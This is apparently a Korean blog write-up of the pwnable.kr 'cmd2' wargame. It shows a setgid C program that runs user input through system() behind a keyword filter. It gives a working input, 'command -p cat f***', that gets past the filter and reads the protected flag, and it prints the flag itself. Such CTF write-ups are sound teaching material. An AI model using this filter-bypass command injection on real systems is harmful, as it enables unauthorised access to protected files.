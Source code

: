 ```yaml
---
title: "[Pwnable.kr] Toddler's Bottle - cmd2 문제풀이"
date: 2019-02-12
draft: false
category: [wargame]
subcategories: [pwnable.kr]
tags: [Write-up, Pwnable.kr]
---
```


이번에는 바로 `cmd2` 문제를 풀어보았다.
별로 안걸릴 줄 알았는데 생각보다 생각을 오래하게 하는 문제였다.  

<!--more-->
  
문제 접속 정보는 아래와 같다.  

```plain
ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```

문제에 접속하면 3개의 파일을 확인할 수 있다.  

> -r-xr-sr-x  1 root cmd2_pwn 8794 Dec 21  2015 cmd2  
> -rw-r--r--  1 root root      586 Dec 21  2015 cmd2.c  
> -r--r-----  1 root cmd2_pwn   30 Jul 14  2015 flag  

다른 문제들이랑 동일하게 실행파일, 소스코드, flag 파일이 있다.
`cmd2.c`의 내용은 다음과 같다.  

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

`cmd1` 문제의 소스코드와 거의 유사 해 보이는데, 이번에는 `delete_env()` 함수가 추가되었고, `filter()` 함수에 필터링 하는 문자도 추가되었다.
`delete_env()` 함수는 환경변수를 `memset()` 함수를 통해 완전히 초기화 시키는 함수이다.
`filter()` 함수의 역할은 앞의 `cmd1`과 동일하지만 이번에는 필터링 하는 문자가 조금 바뀌었다.

가장 중요한 부분은 `/`가 필터링 되었기 때문에 `/bin/cat`을 사용할 수 없다는 것이다.
일단 `/bin`을 사용할 수 없는 것은 `~`가 홈 디렉토리를 의미하기 때문에, `~bin`으로 대체할 수 있다.
또한 `flag`는 앞의 `cmd1`과 같이 `f***`로 사용할 수 있다.

여기서 문제는 `/bin/cat을 어떻게 필터링에 걸리지 않고 실행할 수 있느냐` 이다.
한참을 인터넷을 뒤지다가 `command` 라는 명령어를 찾게 되었다.
설명을 살펴보면 다음과 같다.  

```bash
$ help command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.
    
    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.
    
    Options:
      -p	use a default value for PATH that is guaranteed to find all of
    	the standard utilities
      -v	print a description of COMMAND similar to the `type' builtin
      -V	print a more verbose description of each COMMAND
    
    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```

여기서 `-p` 옵션을 확인하면 `use a default value for PATH that is guaranteed to find all of the standard utilities`라고 적혀있는 것을 확인할 수 있다.
즉, `command -p COMMAND`를 입력하면 `default PATH`로 해당 명령어로 실행한다는 것이다.

그렇다면 `command -p cat FILENAME`을 쉘에서 입력하면 아무리 `PATH`가 변경되어 있더라도 `default PATH`를 사용하기 때문에 정상적으로 `cat` 명령어가 실행 될 것이다.
그래서 쉘에서 `command -p cat flag`를 실행 해 보았다.  

```bash
cmd2@ubuntu:~$ command -p cat flag
cat: flag: Permission denied
```

`Permission denied`가 나오며 `cat` 명령어가 정상적으로 실행되었다!
이에 이를 `./cmd2`의 첫 번째 인자로 넣어주었다.
물론 `flag`는 필터링 되어 있기 때문에 `f***`로 바꾸어 주었다.
그 결과 아래와 같이 `flag`를 읽을 수 있었다!  

![](/images/pwnable.kr/cmd2/cmd2_01.PNG)

```bash
cmd2@ubuntu:~$ ./cmd2 "command -p cat f***"
command -p cat f***
FuN_w1th_5h3ll_v4riabl3s_haha
```

---

```plain
FLAG : FuN_w1th_5h3ll_v4riabl3s_haha
```
